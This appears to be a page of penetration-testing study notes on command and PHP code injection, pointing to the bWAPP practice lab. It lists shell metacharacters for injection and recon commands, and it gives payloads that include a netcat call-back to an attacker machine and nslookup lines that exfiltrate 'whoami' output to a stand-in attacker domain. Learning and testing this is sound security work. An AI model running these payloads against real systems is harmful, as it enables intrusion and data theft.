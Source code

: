 # 4.1 Command Injection

## Command Injection

Command Injection vulnerabilties in the context of web app pt occur when an attacker can manipulate input fields of a web app in a way that allow them to execute OS commands on the underlying server.

This vulnerability is a serious security risk because it can lead to unauthorized access, data theft, and full compromise of the web server.

Main causes of this vulnerability are:

* User Input Handling: web app often take user input through forms, query parameters, etc.
* Lack of Input Sanitazion: insecurely coded app may fail to properly validate, sanitize or escape user inputs&#x20;
* Injection Points: attacker identify injection points such as input fileds or URL query parameters, where they can insert malicious commands

### Exploitation

* Attackers can exploit it crafting malicious input that includes special chars like ; | \ and other shell metachars to break out of the intended input context and inject their commands.
* When the app processes the attacker's input, it constructs a shell command using the milicious input.
* The server, believing the command to be legitimate, executes it in the underlyng OS.

Then, attackers can execute arbitrary commands with the privileges of the web server process, potentially leading to unauthorized data access and exfiltrate them, code execution or sistem compromise, manipulating the server, installing malware or create backdoors for future access.

### PHP  Code Injection

PHP Code Injection also know as PHP Code Execution vulnerability occur when an attacker can inject and execute arbitrary PHP code within a web app.

It's more similat to generic command injection but regards only PHP code. Of course, they allow attackers to gain authorized access to the server, execute malicious actions and potentially compromise web app.

### Example

In an upload form we can upload a file and add at the end of URL this payload:

`; id` to display the id and information of user that runs on the machine

If the web app don't respond it can't be vulnerable or can have a command injection blind, than we can try to take us in listening mode with netcat: `nc -nvlp 4444` and and use `;nc <attacker_machine> 4444` and see if we can reach out our attacker machine from web app.

#### Ways of injecting OS commands <a href="#ways-of-injecting-os-commands" id="ways-of-injecting-os-commands"></a>

```bash
&
&&
|
||
;
Newline (0x0a or \n)
`
injected command `
$(
injected command )
```

#### Useful commands <a href="#useful-commands" id="useful-commands"></a>

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |

#### Blind OS command injection vulnerabilities <a href="#blind-os-command-injection-vulnerabilities" id="blind-os-command-injection-vulnerabilities"></a>

```bash
#blind OS command injection using time delays
& ping -c 10 127.0.0.1 &

#blind OS command injection by redirecting output
& whoami > /var/www/static/whoami.txt &

#blind OS command injection using out-of-band (OAST) techniques
& nslookup kgji2ohoyw.web-attacker.com &
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
wwwuser.kgji2ohoyw.web-attacker.com
```

### Practise

There's a dedicated module on BWapp vulnerable web app.
